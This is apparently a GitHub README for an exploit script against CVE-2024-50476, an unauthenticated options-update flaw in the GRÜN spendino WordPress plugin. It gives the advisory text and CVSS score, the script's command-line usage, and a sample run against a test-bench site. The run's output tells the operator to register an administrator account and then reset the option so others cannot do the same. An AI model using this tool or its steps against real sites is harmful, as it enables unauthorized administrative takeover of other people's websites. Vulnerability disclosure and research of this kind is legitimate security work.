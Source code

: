 # CVE-2024-50476
GRÜN spendino Spendenformular &lt;= 1.0.1 - Unauthenticated Arbitrary Options Update

# Description:
The GRÜN spendino Spendenformular – Mehr Spenden! Weniger Arbeit! plugin for WordPress is vulnerable to unauthorized modification of data that can lead to privilege escalation due to a missing capability check in all versions up to, and including, 1.0.1. This makes it possible for unauthenticated attackers to update arbitrary options on the WordPress site. This can be leveraged to update the default role for registration to administrator and enable user registration for attackers to gain administrative user access to a vulnerable site.


```
Published: 2024-10-25 00:00:00
CVE: CVE-2024-50476
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CVSS Score: 9.8
Slugs: spendino
```

How to use
---

```
$ python3 CVE-2024-50476.py -h
usage: CVE-2024-50476.py [-h] -u URL [-f FIX]

CVE-2024-50476 | GRÜN spendino Spendenformular <= 1.0.1 - Unauthenticated Arbitrary Options Update The GRÜN spendino Spendenformular – Mehr Spenden! Weniger Arbeit! plugin for WordPress is vulnerable to unauthorized modification of data that
can lead to privilege escalation due to a missing capability check in all versions up to, and including, 1.0.1. This makes it possible for unauthenticated attackers to update arbitrary options on the WordPress site. This can be leveraged to
update the default role for registration to administrator and enable user registration for attackers to gain administrative user access to a vulnerable site.

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Website URL
  -f FIX, --fix FIX  Reset after Exploit
```


POC
---

```
$ python3 CVE-2024-50476.py -u https://wpscan-vulnerability-test-bench.ddev.site
Vulnerability check: https://wpscan-vulnerability-test-bench.ddev.site
Option set successfully: https://wpscan-vulnerability-test-bench.ddev.site/wp-admin/admin-ajax.php
You can now register a user as an admin user. Remember to run --fix yes after you have registered to prevent others exploiting the site.
Option set successfully: https://wpscan-vulnerability-test-bench.ddev.site/wp-admin/admin-ajax.php
You can now register a user as an admin user. Remember to run --fix yes after you have registered to prevent others exploiting the site.
```
